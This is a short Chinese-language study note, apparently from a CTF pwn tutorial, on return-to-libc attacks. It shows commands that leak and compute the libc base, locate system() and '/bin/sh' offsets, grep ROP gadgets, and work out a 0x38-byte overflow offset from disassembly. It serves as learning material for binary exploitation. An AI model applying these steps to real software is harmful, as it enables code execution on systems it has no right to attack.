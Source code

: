 - 一般程序很少有 system, execve 或是后门程序
- 在 DEP 保护下无法执行填入的 shellcode

How to Return to libc

- 因为 ASLR，每次 libc 载入的位置都不同
- 我需要 leak libc 的 base address 来知道目 address
  ![](imgs/pwn_04_ropchain_06.jpg)

可以获得 libc 的地方有 stack, (heap, ) 跟 GOT
![](imgs/pwn_05_ret2libc_01.jpg)

[pwn_05_ret2libc_01](practise/pwn_05_ret2libc_01.c)

    ldd ret2libc
       linux-gate.so.1 (0xf7f2c000)
       libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xf7d2d000) 基址
       /lib/ld-linux.so.2 (0xf7f2d000)

    objdump -d ret2libc
    找到 400550<puts@plt> 最右侧显示 # 601018
    objdump -T libc.so.6 | grep system
    00131c70 g    DF .text  00000066  GLIBC_2.0   svcerr_systemerr
    00044660 g    DF .text  00000037  GLIBC_PRIVATE __libc_system
    00044660  w   DF .text  00000037  GLIBC_2.0   system # system() 函数的偏移为 0x00044660 实际地址为 0xf7d2d000+0x00044660

​  
​ readelf -a libc-2.27.so | grep "puts"
​ 42: 00809c0 puts@@GLIBC_2.2.5
​  
​ strings libc-2.27.so -tx | grep "/bin/sh"
​ 1b3e9a /bin/sh
​  
​ ROPgadget --binary libc-2.27.so > g
​ cat g | grep "pop rdi"
​ 0x2155f : pop rdi ; ret
​ cat g | grep "pop rsi"
​ 0x23e6a : pop rsi ; ret
​ cat g | grep "pop rdx"
​ 0x01b96 : pop rdx ; ret
​ cat g | grep "pop rax"
​ 0x439c8 : pop rax ; ret
​ cat g | grep "syscall"

看程序的汇编

    lea rax, [rbp-0x30]
    mov edx, 0x90
    mov rsi, rax
    mov edi, 0x0
    call 400570 <read@plt>
    // rsi从 rbp-0x30这里来, 覆盖0x30个bytes再+8盖掉rbp
    // 即0x38
